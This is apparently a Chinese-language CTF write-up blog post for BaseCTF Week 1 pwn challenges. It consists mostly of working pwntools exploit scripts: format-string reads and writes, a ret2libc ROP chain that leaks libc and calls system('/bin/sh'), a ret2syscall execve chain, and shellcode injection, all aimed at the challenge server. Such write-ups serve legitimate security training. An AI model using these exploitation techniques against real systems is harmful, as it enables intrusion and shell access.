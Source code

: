 ```yaml
---
layout: post
title: "BaseCTF-Week1"
date: 2024-7-10
tags: [pwn]
comments: true
author: gbeefee

---
```


###### 0x0  format_string_level0

flag文件已经打开，找到偏移，读取即可

`%8$s`

###### 0x1 format_string_level2

任意地址写，使用fmtpayload实现

```
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

#io = process('./pwn')
io = remote('challenge.basectf.fun',37214)
target_addr = 0x4040B0

payload = fmtstr_payload(6,{target_addr:1})

io.send(payload)
io.interactive()
```

###### 0x2 她与你皆失

这会明白命名规则了，没有binsh，也没有system，属于泄露libc地址

```
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

elf=ELF('./pwn')
libc =ELF('./libc.so.6')
#io = process('./pwn')
io = remote('challenge.basectf.fun',37831)

bss = 0x0404040
pop_rdi = 0x401176
pop_rdx = 0x401221
pop_rsi = 0x401178
ret= 0x40101a
main_addr =0x4011df
read_plt=elf.plt['read']
read_got=elf.got['read']
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']

payload1 = b'a'*10 + p64(0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

io.sendafter(b'do?\n', payload1)

puts_addr = u64(io.recvuntil('\x7f').ljust(8,b'\x00'))
print(hex(puts_addr))

libc_base =  puts_addr - libc.sym['puts'] 
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload2 = b'a'*10 + p64(0) +p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

io.sendafter(b'do?\n', payload2)

io.interactive()

```

###### 0x3 gift

是的，这是一份礼物，静态链接库，可以采用ret2syscall或者mprotect两种解法，这里是ret3syscall，值得注意的是，不管是哪种解法，都要构造两次输入，也就是先写入binsh再syscall，不能再一个payload里输完，和xyctf那次有点区别

```
from pwn import *

context(arch='amd64', os='linux',log_level='debug')

io=remote('challenge.basectf.fun',31920)
#io = process('./pwn')
elf=ELF('./pwn')

mprotect_addr = 0x448440
read_addr = 0x447700
bss  = 0x4c72c0
main = 0x40184a
pop_rdi = 0x0000000000401f2f
pop_rsi = 0x0000000000409f9e
ret = 0x0000000000449cb9
pop_rax = 0x0000000000419484
pop_rdx_rbx=0x000000000047f2eb
syscall=0x0000000000401ce4

payload=b'a'*0x28+\
    p64(pop_rsi)+p64(bss)+\
    p64(pop_rdi)+p64(0)+\
    p64(pop_rdx_rbx)+p64(0x100)+p64(0)+\
    p64(read_addr)+p64(ret)+p64(main)
payload2=b'a'*0x28+\
    p64(pop_rax)+p64(0x3b)+\
    p64(pop_rdi)+p64(bss)+\
    p64(pop_rsi)+p64(0)+\
    p64(pop_rdx_rbx)+p64(0)+p64(0)+\
    p64(syscall)

io.sendlineafter(b'same\n',payload)
io.sendline(b'/bin/sh\x00')
io.sendlineafter(b'same\n',payload2)

io.interactive()
```

###### 0x4 ret2shellcode1

抽象，暂时没想到

wp出来了，原来是这样，第一次调用完后，寄存器发生了些微的变化，可以再次调用read，而且不再是只能写入2bytes，第二次输入就可以顺利写入shellcode了。

```
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

io = process('./pwn')
#io = remote('challenge.basectf.fun','28285')

sc = asm('syscall')
io.send(sc)
sc = b'\x90'*2 + asm(shellcraft.sh())
io.send(sc)
io.interactive()
```

